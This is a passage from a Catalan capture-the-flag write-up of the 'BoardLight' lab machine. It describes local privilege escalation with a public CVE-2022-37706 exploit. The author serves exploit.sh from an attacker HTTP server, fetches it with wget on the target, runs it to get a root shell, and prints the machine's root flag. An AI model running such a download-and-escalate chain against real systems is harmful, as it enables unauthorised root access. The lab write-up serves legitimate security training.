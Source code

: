 Al veure que és la versió 0.23.1 buscarem algun exploit o POC d'aquesta versió. Hem trobat el següent i és el que utilitzarem:

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit 

Fem un git clone a la nostra màquina on fem un servidor http amb python des del directori del repositori que acabem de descarregar on hi ha l'exploit.sh:

```
┌──(polkali㉿kaliPol)-[~/Documents/BoardLight/CVE-2022-37706-LPE-exploit]
└─$ sudo python -m http.server 666 
Serving HTTP on 0.0.0.0 port 666 (http://0.0.0.0:666/) ...
10.10.11.11 - - [20/Jul/2024 22:13:07] "GET /exploit.sh HTTP/1.1" 200 -`
```


I un cop fet això amb la comanda wget estirem l'exploit.sh des de la màquina de larissa:

```
larissa@boardlight:~$ wget 10.10.14.90:666/exploit.sh
--2024-07-20 13:12:44--  http://10.10.14.90:666/exploit.sh
Connecting to 10.10.14.90:666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                              100%[=============================================================================>]     709  --.-KB/s    in 0s      

2024-07-20 13:12:44 (99.2 MB/s) - ‘exploit.sh’ saved [709/709]`
```

Li donem permisos d'execució:

``larissa@boardlight:~$ chmod +x exploit.sh ``

I ara executem l'script:

```
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# 
```

I ja som root, per tant ara anem a buscar la flag de root al fitxer root.txt i ja tindrem la màquina feta:

```
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cat /root/root.txt 
49f672b49b0c39187807d909546ac6aa
# whoami
root
# 
```
